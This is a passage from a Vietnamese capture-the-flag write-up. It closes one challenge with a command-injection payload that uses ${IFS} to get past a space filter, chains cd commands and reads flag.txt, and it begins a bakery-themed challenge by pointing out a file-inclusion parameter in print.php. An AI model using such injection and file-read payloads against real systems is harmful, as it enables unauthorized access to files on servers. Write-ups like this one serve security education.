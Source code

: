 Nhận thấy đoạn code chặn kí tự khoảng trắng nên việc đọc trực tiếp flag là điều bất khả thi nên mình đã nghĩ đến việc dùng nhiều lệnh nối nhau để lùi về thư mục gốc và đọc flag:

> Payload: ;cd${IFS}..;cd${IFS}..;cd${IFS}..;cd${IFS}..;more${IFS}flag.txt

> **`Flag: brunner{d1d_1_f0rg37_70_b4n_s0m3_ch4rz?}`**
{: .prompt-tip }

## III. Brunsviger Huset

> Mô tả: **Welcome to "Brunsviger Huset" (House of Brunsviger), the oldest Danish bakery in town! Our bakers have been perfecting their craft for over 150 years, and our signature brunsviger is a favorite among locals and tourists alike. But, it seems like our bakery has a secret ingredient that's not on the menu...Can you find the hidden flag that's been baked into our website? Be warned, our bakers are notorious for their clever hiding spots!**

Truy cập trang web ta được một trang web với chức năng bán các sản phầm về bánh mì, không có gì đặc biệt. Nhưng khi đọc thử source code của web nhận thấy một đoạn code đặc biệt:

```js
<script>
    function printCalendar() {
        // Open the print URL in a new window (Note to self: Remember to add print.php to robots.txt!)
        const printUrl = 'print.php?file=/var/www/html/bakery-calendar.php&start=2025-07&end=2025-09';
        const printWindow = window.open(printUrl, '_blank', 'width=800,height=600,toolbar=no,menubar=no,scrollbars=yes');

        // Wait for the page to load, then trigger print
        if (printWindow) {
            printWindow.onload = function() {
                setTimeout(function() {
                    printWindow.print();
                    // Close the window after printing (optional)
                    setTimeout(function() {
                        printWindow.close();
                    }, 1000);
                }, 1000);
            };
        }
    }
</script>
```
{: .nolineno }

Đoạn code này khả năng cao chứa lỗ hổng đọc file tùy ý **`File Inclusion`**. Thử truy cập `https://brunsviger-huset-269cf517a0f4cf2b.challs.brunnerne.xyz/print.php?file=/var/www/html/bakery-calendar.php&start=2025-07&end=2025-09`{: .filepath} nhận được giao diện dưới đây: